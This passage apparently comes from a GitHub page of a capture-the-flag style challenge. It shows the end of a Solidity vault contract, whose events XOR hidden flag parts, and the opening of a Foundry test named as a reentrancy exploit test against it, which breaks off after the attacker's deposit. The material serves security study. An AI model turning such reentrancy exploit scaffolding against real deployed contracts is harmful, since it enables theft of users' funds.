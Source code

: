 ```solidity
        }
        if (_sequence[msg.sender] == 3) {
            emit BalanceUpdate(PART2 ^ bytes32(block.timestamp), 0xB2);
        }
    }

    function exit(uint256 _amount) public nonReentrant {
        require(_credits[msg.sender] >= _amount, "Insufficient balance");

        // Deduct the balance **before** transferring funds
        _credits[msg.sender] -= _amount;

        uint8 currentSeq = _sequence[msg.sender];

        // Safely transfer Ether
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");

        // Log events based on updated balance and sequence
        if (currentSeq == 4 && address(this).balance <= 3 ether) {
            emit TransferLog(
                PART3 ^ bytes32(uint256(uint160(msg.sender))),
                0xC3
            );
        }
        if (address(this).balance <= 1 ether) {
            emit TransferLog(PART4 ^ bytes32(gasleft()), 0xD4);
        }
    }

    function checkBalance(address user) public view returns (uint256) {
        return _credits[user];
    }
}

```

Test case for exploit: 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import "../src/reentracy.sol";
contract AssetVaultExploitTest is Test {
    AssetVault public vault;
    Attack public attacker;

    function setUp() public {
        // Fund this test contract with Ether
        vm.deal(address(this), 10 ether);
        vault = new AssetVault();
        attacker = new Attack(address(vault));

        // Ensure the vault has sufficient balance
        vm.deal(address(vault), 10 ether);
    }
    function testReentrancyExploit() public {
        // Log initial attacker balance
        uint256 initialAttackerBalance = address(attacker).balance;
        console.log("Attacker Initial Balance: ", initialAttackerBalance);
        // Attacker deposits enough Ether to avoid revert
        attacker.attackDeposit{value: 1 ether}();
```